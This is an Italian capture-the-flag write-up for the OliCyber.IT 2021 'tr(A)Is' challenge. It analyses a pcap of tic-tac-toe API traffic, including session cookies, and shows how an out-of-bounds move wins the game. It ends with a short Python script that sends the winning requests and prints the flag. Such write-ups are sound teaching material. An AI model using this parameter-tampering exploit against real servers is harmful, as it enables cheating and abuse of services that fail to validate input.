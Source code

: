 # OliCyber.IT 2021 - Competizione nazionale

## [network-1] tr(A)Is (111 risoluzioni)

Il sito indicato nella descrizione della challenge ([http://trais.challs.olicyber.it](http://trais.challs.olicyber.it)) implementa il gioco del tris. In allegato alla challenge, inoltre, si trova un file pcap che contiene del traffico catturato proprio mentre un utente visita quel sito e gioca a tris, oltre a visitare diverse pagine web.

### Soluzione

Analizzando il file pcap con Wireshark e seguendo i flussi TCP si possono vedere diversi tentativi di gioco finiti sempre in perdita o pareggio da parte dell'utente.

Il flusso n. 14, però, contiene una sequenza di mosse vincenti:

```
GET //api/move/2/2 HTTP/1.1
Host: 131.114.137.86:8080
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session=.eJyrVkrKTyxKUbKKjs4rzcnRgROxOgQFYmsB0R4XUg.YJw2Tg.SnawVQ1Hh2p_sK5pZRn4OW8WO38

HTTP/1.1 200 OK
Content-Length: 34
Content-Type: application/json
Date: Wed, 12 May 2021 20:10:54 GMT
Server: waitress
Set-Cookie: session=.eJyrVkrKTyxKUbKKjs4rzcnRgROxOhABQxQemNA1jI2tBQBUwxRr.YJw2Tg.Rowcw92opF2k56_M6o02ClKsmwY; HttpOnly; Path=/
Vary: Cookie

{"move":[1,1],"status":"ongoing"}
GET //api/move/2/1 HTTP/1.1
Host: 131.114.137.86:8080
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session=.eJyrVkrKTyxKUbKKjs4rzcnRgROxOhABQxQemNA1jI2tBQBUwxRr.YJw2Tg.Rowcw92opF2k56_M6o02ClKsmwY

HTTP/1.1 200 OK
Content-Length: 34
Content-Type: application/json
Date: Wed, 12 May 2021 20:10:54 GMT
Server: waitress
Set-Cookie: session=.eJyrVkrKTyxKUbKKjs4rzcnRgROxOhABQxjPUEcXhGJjawHnvBGE.YJw2Tw.7UtXpRsctOGMgVFvV9TXLK-0Mv8; HttpOnly; Path=/
Vary: Cookie

{"move":[2,0],"status":"ongoing"}
GET //api/move/2/3 HTTP/1.1
Host: 131.114.137.86:8080
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: session=.eJyrVkrKTyxKUbKKjs4rzcnRgROxOhABQxjPUEcXhGJjawHnvBGE.YJw2Tw.7UtXpRsctOGMgVFvV9TXLK-0Mv8

HTTP/1.1 200 OK
Content-Length: 67
Content-Type: application/json
Date: Wed, 12 May 2021 20:10:55 GMT
Server: waitress
Vary: Cookie

{"message":"Hai vinto! flag{redacted}","move":null,"status":"won"}
```

Come si può notare dalla sequenza di richieste e risposte catturate, l'utente esegue le seguenti tre mosse: `(2,2) (2,1) (2,3)` inserendo una X fuori dalla board e raggiungendo una configurazione di questo tipo:

```
. . .
. O .
O X X X
      ^
```

La prima X in `(2,2)` e la seconda in `(2,1)` si posso posizionare utilizzando l'interfaccia web. Come inserire la terza? Analizzando il sorgente della pagina web, si può notare la definizione della seguente funzione:

```js
function sendMove(i, j) {
  var cellX = document.getElementById(`cell_${i}${j}`);
  if (!isGameRunning || cellX?.innerText) return;

  fetch(`/api/move/${i}/${j}`)
    .then((res) => res.json())
    .then((data) => {
      console.log(`sendMove(${i}, ${j}) -> ${JSON.stringify(data)}`);

      if (data.status != "ongoing") {
        isGameRunning = false;
        message.innerText = data.message;
      }

      if (data.status == "won") {
        return;
      }

      if (data.move) {
        var cellO = document.getElementById(
          `cell_${data.move[0]}${data.move[1]}`
        );
        cellO.innerText = "⭕";
      }
    });

  cellX.innerText = "❌";
}
```

Sarà quindi sufficiente aprire la console JS dal browser ed eseguire `sendMove(2,3)` per posizionare l'ultima X ed ottenere la flag.

### Exploit

La funzione `sendMove` al suo interno non fa altro che eseguire una richiesta GET all'endpoit `/api/move/i/j` dove `i` e `j` sono le due componenti della mossa che si desidera eseguire. Possiamo quindi scriptare la sequenza di richieste per eseguire tutte e tre le mosse e stampare la flag.

```python
import requests

URL = 'http://trais.challs.olicyber.it/'

s = requests.Session()

s.get(URL)
s.get(f"{URL}/api/move/2/2")
s.get(f"{URL}/api/move/2/1")
text = s.get(f"{URL}/api/move/2/3").text
print(text[text.index('flag{'):text.index('}') + 1])

# flag{w4ai7...n0n_val3_e'_c0n7r0_l3_regol3}
```
